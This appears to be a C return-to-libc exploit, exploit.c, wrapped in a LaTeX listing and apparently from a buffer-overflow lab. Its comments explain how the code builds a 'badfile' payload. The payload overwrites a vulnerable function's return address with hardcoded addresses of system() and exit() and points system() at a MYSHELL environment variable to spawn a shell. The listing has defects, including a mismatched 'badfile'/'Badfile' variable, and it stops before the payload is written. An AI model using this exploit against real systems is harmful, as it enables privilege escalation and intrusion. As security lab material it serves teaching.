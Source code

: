 \documentclass[14pt]{extarticle}
\begin{document}
\begin{lstlisting}[language=c]
	/* exploit.c */
	// These are the standard libraries that are needed to open the badfile for writing.
	// They also allow the use fo the getenv command which is used to get the location of the environment variable
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	// main is the only function I'll need, everything can be made within it.
	int main(int argc, char *argv[]){
	/* since retlib has a shorter file name than exploit, we can add 2 to the location of the variable by default */
	long environment_adjust = 2; // adjust environment variable location
	int arr_size = 12;  //size of target buffer (should be raised to multiple of 4)

	// determine the location of the return address of the bof function
	int ret_addr = arr_size +12; // array size + padding to reach return location

	//----------------------------------------------------------------
	// Done with Variables
	//----------------------------------------------------------------

	// see if a parameter was passed into the program
	if(argc > 1){
		// use parameter to adjust environment variable location on the fly
		environment_adjust = atol(argv[1]);
	}
	// size of local buffer
	int buf_size = 40;
	char buf[buf_size];

	// open a connection to the badefile for writing
	FILE *badfile;
	Badfile = fopen("./badfile", "w");

	/* clear the buffer to make it easier to read in hexdump */
	memset(&buf, 0x00, buf_size); //optional

	/* get location of environment variable MYSHELL */
	char* shell = (char *)getenv("MYSHELL");
	if(shell){
		// if it's found, output the location
		//printf("%x\n", (unsigned int)shell);
	}else{
		// if it's not set, throw an error and exit.
		printf("No $MYSHELL environment variable set\n");
		exit(1);
	}

	// The system command will replace the return value in the stack.
	// This will make the bof function jump to the system command rather than returning to the main function
	*(long *) &buf[ret_addr] = 0xb7e42da0 ; //system()

	// The next value to place, right after the return location, is the exit command.
	// It's placed right after the return location, because when the system command above is finished, the stack pointer will expect to run the next command in line.
	// Since exit() will be the next command on the stack, it will be ran directly after the system command returns.
	// The exit() command is used to give the program a clean exit rather than throwing an error
	*(long *) &buf[ret_addr + 4] = 0xb7e369d0 ; //exit()


\end{lstlisting}
\end{document}
